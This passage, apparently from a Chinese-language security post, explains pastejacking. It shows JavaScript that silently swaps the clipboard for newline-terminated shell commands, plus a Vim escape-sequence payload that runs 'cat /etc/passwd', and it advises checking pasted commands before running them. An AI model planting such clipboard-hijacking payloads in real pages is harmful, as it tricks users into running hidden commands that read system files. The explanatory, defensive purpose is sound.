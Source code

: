 ```
            }


            document.addEventListener('keydown', function(event) {
                var ms = 800;  
                var start = new Date().getTime();
                var end = start;
                while(end < start + ms) {
                    end = new Date().getTime();
                } 
                copyTextToClipboard('touch ~/.evil\nclear\necho "not evil"');
            });
```
防不胜防啊。这东西就好像当年某些钓鱼网站让你乱下一些PE病毒一样，并没有直接的解决方案，最好的防护方式就是以后你复制命令到终端的时候仔细瞅瞅，或者先复制到一个第三方的编辑器内看看有没有啥奇怪的命令。不过别用Vim作为验证，譬如如下的攻击方式：
```
copyTextToClipboard('echo "evil"\n \x1b:!cat /etc/passwd\n');
```
它会利用Vim的Macro来获取你的用户密码等。如果你用的是ITerm，它会提醒你那些自动利用换行来执行的命令：
![](https://camo.githubusercontent.com/88d852a7f44fff0ad3fd064241567a9079b6133d/687474703a2f2f692e696d6775722e636f6d2f573870776546312e706e67)









